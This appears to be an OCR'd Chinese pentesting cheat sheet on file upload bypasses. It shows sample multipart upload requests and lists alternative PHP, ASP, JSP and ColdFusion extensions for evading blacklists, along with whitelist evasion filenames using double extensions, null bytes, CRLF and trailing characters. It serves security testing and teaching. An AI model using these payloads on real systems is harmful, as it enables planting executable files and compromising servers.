 

## 测试案例1：黑名单绕过

```
1. 找到上传请求并将其发送到repeater
2. 现在开始测试哪个文件扩展名被列入黑名单，更改 `filename=` 参数

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

--------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

3. 尝试所有扩展名

**PHP** → .phtm、phtml、.phps、.pht、.php2、.php3、.php4、.php5、.shtml、.phar、.pgif、.inc
**ASP** → asp、.aspx、.cer、.asa
**Jsp** → .jsp、.jspx、.jsw、.jsv、.jspf
**Coldfusion** → .cfm、.cfml、.cfc、.dbm
**使用随机大小写** → .pHp、.pHP5、.PhAr

更多信息请访问 PayloadAllThings 和 https://book.hacktricks.xyz/pentesting-web/file-upload

4. 如果成功，则进一步利用，否则可能是其他类型的验证或
检查，因此请尝试其他绕过方法。
```



## 测试案例2：白名单绕过

```
1. 找到上传请求并将其发送到repeater
2. 现在开始测试哪个文件扩展名已列入白名单，请更改 `filename=` 参数

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

--------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.jpg"
Content-Type: application/x-php

3. 尝试所有扩展名

file.jpg.php
file.php.jpg
file.php.blah123jpg
file.php%00.jpg
file.php\x00.jpg 上传文件时也可以这样做，将其命名为 file.phpD.jpg，并将十六进制的 D (44) 更改为 00。
file.php%00
file.php%20
file.php%0d%0a.jpg
file.php.....
file.php/
file.php.\
file.php#.png
file.
.html

4. 如果不成功，尝试使用入侵器进行暴力破解，确定哪个扩展名可以接受，然后再试一次。
5. 如果成功，则进一步利用，或者可能存在其他类型的验证或
```